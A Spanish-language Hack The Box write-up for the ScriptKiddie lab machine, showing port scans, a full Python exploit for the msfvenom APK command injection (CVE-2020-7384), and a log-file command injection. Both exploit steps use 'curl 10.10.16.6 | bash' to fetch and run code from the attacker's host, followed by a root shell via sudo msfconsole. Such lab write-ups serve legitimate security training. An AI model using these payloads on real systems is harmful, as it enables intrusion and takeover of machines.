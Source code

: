 ```yaml
---
layout: single
title: ScriptKiddie - Hack The Box
excerpt: "ScriptKiddie is an easy difficulty Linux machine that presents a Metasploit vulnerability ([CVE-2020-7384](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2020-7384)), along with classic attacks such as OS command injection and an insecure passwordless `sudo` configuration. Initial foothold on the machine is gained by uploading a malicious `.apk` file from a web interface that calls a vulnerable version of `msfvenom` to generate downloadable payloads. Once shell is obtained, lateral movement to a second user is performed by injecting commands into a log file which provides unsanitized input to a Bash script that is triggered on file modification. This user is allowed to run `msfconsole` as `root` via `sudo` without supplying a password, resulting in the escalation of privileges."
date: 2024-04-16
classes: wide
header:
  teaser: /assets/images/htb-script/script.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags: 
  - Msfvenom
  - Script
  - Pivoting
---
```


![](/assets/images/htb-script/script.png)

ScriptKiddie is an easy difficulty Linux machine that presents a Metasploit vulnerability ([CVE-2020-7384](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2020-7384)), along with classic attacks such as OS command injection and an insecure passwordless `sudo` configuration. Initial foothold on the machine is gained by uploading a malicious `.apk` file from a web interface that calls a vulnerable version of `msfvenom` to generate downloadable payloads. Once shell is obtained, lateral movement to a second user is performed by injecting commands into a log file which provides unsanitized input to a Bash script that is triggered on file modification. This user is allowed to run `msfconsole` as `root` via `sudo` without supplying a password, resulting in the escalation of privileges. 

## Portscan

```
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n 10.10.10.226 -oG allports                                     
[sudo] contraseña para kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-18 11:48 CEST
Initiating Ping Scan at 11:48
Scanning 10.10.10.226 [4 ports]
Completed Ping Scan at 11:48, 0.08s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 11:48
Scanning 10.10.10.226 [65535 ports]
Discovered open port 22/tcp on 10.10.10.226
Discovered open port 5000/tcp on 10.10.10.226
Completed SYN Stealth Scan at 11:48, 13.04s elapsed (65535 total ports)
Nmap scan report for 10.10.10.226
Host is up, received echo-reply ttl 63 (0.12s latency).
Scanned at 2024-04-18 11:48:21 CEST for 13s
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
5000/tcp open  upnp    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.38 seconds
           Raw packets sent: 68669 (3.021MB) | Rcvd: 67851 (2.714MB)

```
Y con esto analizamos los puertos abiertos:
```
nmap -sCV -p22,5000 -Pn 10.10.10.226 -oN targeted                                                                                                                                                                 130 ⨯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-18 11:54 CEST
Nmap scan report for 10.10.10.226
Host is up (0.053s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.21 seconds

```
## Analisis Web

Vemos que nos lleva a una pagina:
![](/assets/images/htb-script/pag1.png)

Vemos que la segunda introduccion de datos juega con msfvenom,  asi que vamos a buscar con searchsploit y encontramos un exploit. Nos lo llevamos a nuestro equipo y vammos a ver que hace:
```
# Exploit Title: Metasploit Framework 6.0.11 - msfvenom APK template command injection
# Exploit Author: Justin Steven
# Vendor Homepage: https://www.metasploit.com/
# Software Link: https://www.metasploit.com/
# Version: Metasploit Framework 6.0.11 and Metasploit Pro 4.18.0
# CVE : CVE-2020-7384

#!/usr/bin/env python3
import subprocess
import tempfile
import os
from base64 import b64encode

# Change me
payload = 'curl 10.10.16.6 | bash'

# b64encode to avoid badchars (keytool is picky)
payload_b64 = b64encode(payload.encode()).decode()
dname = f"CN='|echo {payload_b64} | base64 -d | bash #"

print(f"[+] Manufacturing evil apkfile")
print(f"Payload: {payload}")
print(f"-dname: {dname}")
print()

tmpdir = tempfile.mkdtemp()
apk_file = os.path.join(tmpdir, "evil.apk")
empty_file = os.path.join(tmpdir, "empty")
keystore_file = os.path.join(tmpdir, "signing.keystore")
storepass = keypass = "password"
key_alias = "signing.key"

# Touch empty_file
open(empty_file, "w").close()

# Create apk_file
subprocess.check_call(["zip", "-j", apk_file, empty_file])

# Generate signing key with malicious -dname
subprocess.check_call(["keytool", "-genkey", "-keystore", keystore_file, "-alias", key_alias, "-storepass", storepass,
                       "-keypass", keypass, "-keyalg", "RSA", "-keysize", "2048", "-dname", dname])

# Sign APK using our malicious dname
subprocess.check_call(["jarsigner", "-sigalg", "SHA1withRSA", "-digestalg", "SHA1", "-keystore", keystore_file,
                       "-storepass", storepass, "-keypass", keypass, apk_file, key_alias])

print()
print(f"[+] Done! apkfile is at {apk_file}")
print(f"Do: msfvenom -x {apk_file} -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null")

```
Hemos sustituido el comando para ejecutarnos una bash en nuestra ip, ahora le damos privilegios para poder meterlo en la página(sudo chown kali:kali -R /tmp/tmptgdoeu2s/)
Nos montamos un servidor en python y en escucha por la 443 y enviamos el exploit.

## Escalada de privilegios

Ahora ya hemos accedido al sistema.
Podemos encontrar la flag de usuario.
Vemos que hay un script hackers que no podemos leer pero si usar, y en el directorio logs encontramos el script de la app. La cual tambien usa scanloosers.sh en el directorio de otro usuario llamado pwn.
```
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
```
Aqui vemos que coje del script de hackers a partir del tercer input, lo que nos puede llevar a una posible inyeccion

```
echo "a b 10.10.16.6; curl 10.10.16.6 | bash #" > hackers
```
Si introducimos esto mientras seguimos en escucha en otra terminal por el puerto 443 y con un servidor en python3
Ahora hemos accedido al usuario pwn, vamos a ver que privilegios tiene este usuario:

```
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole

```
Podemos ejecutar el metasploit con root,  y dentro de metasploit podemos usar una consola en la que ejecutar comandos y como lo hemos iniciado con root podremos usar comandos de root, y por tanto encontrar la flag de root:

```
msf6 > irb
stty: 'standard input': Inappropriate ioctl for device
[*] Starting IRB shell...
[*] You are in the "framework" object

system("whoami")
Switch to inspect mode.
irb: warn: can't alias jobs from irb_jobs.
>> system("whoami")
root
system("bash")
=> true
>> system("bash")
whoami
root
cd /root
ls
root.txt
snap
cat root.txt
34e315f940c71771856d6c7d95c36340

```
Y ya lo tendriamos
